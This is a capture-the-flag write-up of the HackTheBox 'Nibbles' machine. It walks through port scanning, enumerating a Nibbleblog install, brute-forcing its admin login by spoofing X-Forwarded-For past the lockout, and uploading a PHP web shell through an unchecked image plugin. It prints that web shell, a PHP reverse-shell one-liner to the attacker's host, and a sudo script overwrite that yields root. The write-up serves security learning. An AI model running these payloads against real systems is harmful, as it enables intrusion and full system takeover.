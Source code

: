 ```yaml
---
title: Nibbles
description: Nibbles box from HackTheBox write up.
---
```


# Nibbles <a href='/assets/resources/HackTheBox/Nibbles-resources.zip' title="Download resources"> :material-folder-zip:{:alt="Download resources"} </a>

## Nmap scan

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap --min-rate 1000 -p- 10.10.10.75
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-04 12:48 EST
Nmap scan report for 10.10.10.75
Host is up (0.051s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 17.93 seconds
```
```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -p80,22 10.10.10.75    
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-04 12:49 EST
Nmap scan report for 10.10.10.75
Host is up (0.051s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.72 seconds
```

A website and SSH, let's start with the port 80 and check what we can get from it.

## Port 80

The site only contains a 'Hello world' message but inspecting the code we can see a code comment:
```html
 <!-- /nibbleblog/ directory. Nothing interesting here! -->
```
Visiting `/nibbleblog/` will reveal a blog, let's enumerate it.

### Nibbleblog

Nibbleblog is an engine for blog creation. Using Gobuster:
```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://10.10.10.75/nibbleblog/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.75/nibbleblog/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2021/12/04 12:58:04 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 2987]
/sitemap.php          (Status: 200) [Size: 402] 
/content              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/content/]
/themes               (Status: 301) [Size: 322] [--> http://10.10.10.75/nibbleblog/themes/] 
/feed.php             (Status: 200) [Size: 302]                                             
/admin                (Status: 301) [Size: 321] [--> http://10.10.10.75/nibbleblog/admin/]  
/admin.php            (Status: 200) [Size: 1401]                                            
/plugins              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/plugins/]
/install.php          (Status: 200) [Size: 78]                                              
/update.php           (Status: 200) [Size: 1622]                                            
/README               (Status: 200) [Size: 4628]                                            
/languages            (Status: 301) [Size: 325] [--> http://10.10.10.75/nibbleblog/languages/]       
===============================================================
2021/12/04 13:03:24 Finished
===============================================================
```
We can see some interesting things, checking the `README` file reveals the version of the site: `4.0.3`. Let's see if something exists for this version:
```
┌──(kali㉿kali)-[~]
└─$ searchsploit Nibbleblog  
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Nibbleblog 3 - Multiple SQL Injections                                             | php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)                              | php/remote/38489.rb
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
The second one sounds cool but needs an authenticated user so time to move on. 

We can try to brute force the `/admin.php` page. To help with this, the file `/nibbleblog/content/private/users.xml` contains the users registered in the application which, in this case, only contains the `admin` user. This file also reveals something not good, looks like the application is blocking IPs out after a number of failed logins (Checking the application code shows that the ban is 5 minutes long after 5 unsuccessful logins).

I decided to change the `X-Forwarded-For` header to see if the block can be bypassed and... actually it worked! So time for Python and a custom brute force tool... or not. The password was `nibbles` and yes, my Python code found the password, but I should have tried a bit harder with the default credentials becasue it would have been faster, lesson learnt. The Python code I wrote is uploaded as a resource if someone wants to check it out.

Now we can continue with the exploit we found earlier and get access to the box.

#### RCE

Checking the Metasploit exploit found by `searchsploit` it is easy where to look for our foothold. There is a plugin called "My image" that lets you upload images to the site, the thing is that it is not checking the files so a web shell can be used instead. The uploaded files are located at `/nibbleblog/content/private/plugins/my_image/`.

I uploaded a simple PHP web shell to get code execution:
```php
<?php
    if (isset($_GET['cmd'])) {
        system($_GET['cmd']);
    }
?>
```
And then spinning up a listener and with a reverse shell like this (Remember to URL encode it!):
```bash
php -r '$sock=fsockopen("10.10.14.26",8080);exec("/bin/sh -i <&3 >&3 2>&3");'
```
We get access to the machine!
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 8080 
listening on [any] 8080 ...
connect to [10.10.14.26] from (UNKNOWN) [10.10.10.75] 52934
/bin/sh: 0: can't access tty; job control turned off
$
```
The user flag is under `/home/nibbler/user.txt`.

## Privilege escalation

Right now we have access as the `nibbler` user. In its `home` directory we can find a `personal.zip` file that contains a monitoring script and if we check if we can use `sudo`:
```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

```

There it is our attack vector. Since we have control over that script route we can just change the contents of the `monitor.sh` script with:
```bash
#! /bin/bash
bash
```

Executing our new script with `sudo` will give us a `root` shell:
```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
root@Nibbles:/home/nibbler/personal/stuff#
```
The `root` flag is under `/root/root.txt`.
